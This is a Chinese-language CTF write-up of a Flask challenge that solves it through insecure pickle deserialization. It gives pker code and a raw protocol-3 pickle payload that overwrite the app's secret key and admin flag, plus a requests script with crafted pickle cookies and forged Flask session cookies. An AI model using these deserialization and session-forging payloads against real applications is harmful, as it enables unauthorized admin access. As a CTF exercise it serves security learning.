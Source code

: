 ```
    resp = make_response("success")
    resp.delete_cookie("session")
    resp.delete_cookie("pkl")
    return resp

@app.route("/source")
def source():
    return open('code.txt','r').read()

if __name__ == "__main__":
    app.run(host="0.0.0.0",port=5000,debug=True) 
```

发现pickle，那么可能是python反序列化，发现进行pickle反序列化的时候只允许`__main__`模块

### 方法一

这里使用 c 操作符控制 config.secret_key
通过c操作符(即GLOBAL指令)覆盖secret_key和is_admin的值
首先尝试使用pker生成payload

```
secret = GLOBAL('__main__', 'config')
secret.secret_key = 'hello'
person = INST('__main__', 'Person', 'admin', 1)
return person 
```

然后`python3 pker.py < test.txt`
但是官方wp说0号协议不能用，需要3号协议，不会了，payload为

```
\x80\x03c__main__\nconfig\n}(Vsecret_key\nVcioier\nub0c__main__\nPerson\nq\x00)\x81q\x01}q\x02(X\x04\x00\x00\x00nameq\x03X\x07\x00\x00\x00Cxloverq\x04X\x08\x00\x00\x00is_adminq\x05K\x01ub. 
```

具体流程，登录过后，修改coookie的pkl，访问`/login`反序列化覆盖 secret_key ，然后再访问 `/` 覆盖掉 `app.config["SECRET_KEY"]`，接着更改 cookie 的 session 为篡改的 session 访问 `/login` 即可获得 flag
伪造session使用flask_session_cookie_manager
![](img/b7aee6c35e92ad2f6918c34d8043e240.png)

```
import requests

url = "http://cbc0bd6f-2b6c-40eb-9b25-e69f293b2a4a.node1.hackingfor.fun/"

headers1 = {
    "Cookie":"pkl=gASVPQAAAAAAAACMCF9fbWFpbl9flIwGUGVyc29ulJOUKYGUfZQojARuYW1llIwHQ3hsb3ZlcpSMCGlzX2FkbWlulEsAdWIu; session=eyJpc19hZG1pbiI6MCwibmFtZSI6IkN4bG92ZXIifQ.YY_kJA.CkMNAiYIGjqVqVXZg73VAd_RGSI"
}

headers2 = {
    "Cookie":"pkl=gANjX19tYWluX18KY29uZmlnCn0oVnNlY3JldF9rZXkKVmNpb2llcgp1YjBjX19tYWluX18KUGVyc29uCnEAKYFxAX1xAihYBAAAAG5hbWVxA1gHAAAAQ3hsb3ZlcnEEWAgAAABpc19hZG1pbnEFSwF1Yi4=;session=eyJpc19hZG1pbiI6MCwibmFtZSI6IkN4bG92ZXIifQ.YY_kJA.CkMNAiYIGjqVqVXZg73VAd_RGSI"
}

headers3 = {
    "Cookie":"pkl=gANjX19tYWluX18KY29uZmlnCn0oVnNlY3JldF9rZXkKVmNpb2llcgp1YjBjX19tYWluX18KUGVyc29uCnEAKYFxAX1xAihYBAAAAG5hbWVxA1gHAAAAQ3hsb3ZlcnEEWAgAAABpc19hZG1pbnEFSwF1Yi4=;session=eyJpc19hZG1pbiI6MSwibmFtZSI6IkN4bG92ZXIifQ.YY_k-A.7Dh_sZNchzUt3E1Z8B0xHaJbaG0"
}

```